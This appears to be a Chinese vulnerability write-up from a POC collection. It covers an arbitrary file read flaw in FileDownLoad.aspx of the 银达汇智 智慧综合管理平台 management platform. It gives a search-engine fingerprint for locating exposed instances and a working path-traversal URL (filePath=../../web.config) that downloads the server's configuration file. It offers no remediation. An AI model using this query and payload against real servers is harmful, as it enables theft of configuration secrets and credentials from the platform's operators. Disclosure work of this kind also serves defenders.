 # 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"汇智信息" && title="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed-20220313134159838.png)

验证POC

```plain
http://xxx.xxx.xxx.xxx/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![img](../../../.vuepress/public/img/1627915116676-c0c892b3-14d0-4b50-a97b-cbc0cd8d4dc9.png)